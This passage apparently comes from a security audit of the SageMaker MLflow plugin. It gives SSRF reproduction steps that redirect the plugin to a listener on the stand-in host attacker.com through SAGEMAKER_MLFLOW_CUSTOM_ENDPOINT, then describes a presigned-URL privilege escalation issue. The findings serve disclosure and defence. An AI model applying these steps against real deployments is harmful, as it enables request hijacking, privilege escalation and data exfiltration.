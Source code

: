     * Security Test Case:
        1. **Setup Attacker Server:**  Set up a simple HTTP server (e.g., using `netcat` or Python's `http.server`) on `attacker.com` to listen on port 80 and log incoming requests. For example, using python: `python -m http.server 80`
        2. **Set Environment Variable:** In the environment where the MLflow plugin is running, set the environment variable `SAGEMAKER_MLFLOW_CUSTOM_ENDPOINT` to `http://attacker.com`.
        3. **Set MLFLOW_TRACKING_URI:** Set the `MLFLOW_TRACKING_URI` environment variable to a valid SageMaker ARN, for example: `arn:aws:sagemaker:us-west-2:000000000000:mlflow-tracking-server/test-server`. This is needed to satisfy other parts of the plugin initialization, but the custom endpoint should override it.
        4. **Execute MLflow Operation:** Run a simple MLflow operation that triggers a request to the tracking server. For example, execute the following Python code:
        ```python
        import mlflow
        mlflow.set_tracking_uri("arn") # "arn" will trigger the plugin
        mlflow.create_experiment("test_experiment_ssrf")
        ```
        5. **Observe SSRF:** Check the logs of the attacker's HTTP server (`attacker.com`). You should see an HTTP request logged, indicating that the MLflow plugin's request was redirected to `http://attacker.com` due to the `SAGEMAKER_MLFLOW_CUSTOM_ENDPOINT` setting. The request details in the logs will confirm the SSRF.

* Vulnerability: Unrestricted Presigned URL Generation

    * Description:
        1. An attacker gains access to an MLflow tracking server that is configured with the SageMaker MLflow plugin. This access could be obtained through various means, such as exploiting vulnerabilities in MLflow itself or compromising MLflow user credentials if basic authentication is enabled alongside SigV4. For the purpose of this vulnerability, we assume the attacker has a valid way to interact with the MLflow tracking server, even with limited permissions.
        2. The IAM role associated with the SageMaker MLflow tracking server is configured with the `sagemaker:CreatePresignedMlflowTrackingServerUrl` permission. This permission is necessary for the `get_presigned_url` function in the plugin to work.
        3. The attacker, now having access to the MLflow tracking server (and thus indirectly using the plugin), can invoke the `sagemaker_mlflow.presigned_url.get_presigned_url()` function. This function is intended to generate presigned URLs for accessing the SageMaker MLflow tracking server.
        4. Upon invocation, `get_presigned_url` function uses the configured AWS credentials (assumed by the MLflow tracking server's IAM role) to call the `create_presigned_mlflow_tracking_server_url` API, generating a presigned URL.
        5. This generated presigned URL provides temporary, credential-less access to the SageMaker MLflow tracking server API endpoints.
        6. If the IAM policy attached to the tracking server's role grants overly broad permissions for `sagemaker:CreatePresignedMlflowTrackingServerUrl`, the generated presigned URL might inadvertently grant access to a wider range of SageMaker MLflow actions than the attacker was initially authorized for through their MLflow access. This is because the presigned URL's permissions are tied to the IAM role of the tracking server, not necessarily restricted to the initial MLflow user's intended access level.

    * Impact:
        - **Unauthorized Access to SageMaker MLflow APIs:** An attacker with limited access to the MLflow tracking server can potentially escalate their privileges to perform actions they are not supposed to, by leveraging presigned URLs.
        - **Data Manipulation or Exfiltration:** If the overly permissive IAM policy allows, the attacker could use the presigned URL to access sensitive data managed by the SageMaker MLflow tracking server or even manipulate models and experiments.
        - **Circumvention of Intended Access Controls:** The presigned URL mechanism, if not carefully permissioned, can bypass the intended access control mechanisms for the SageMaker MLflow service, leading to security breaches.
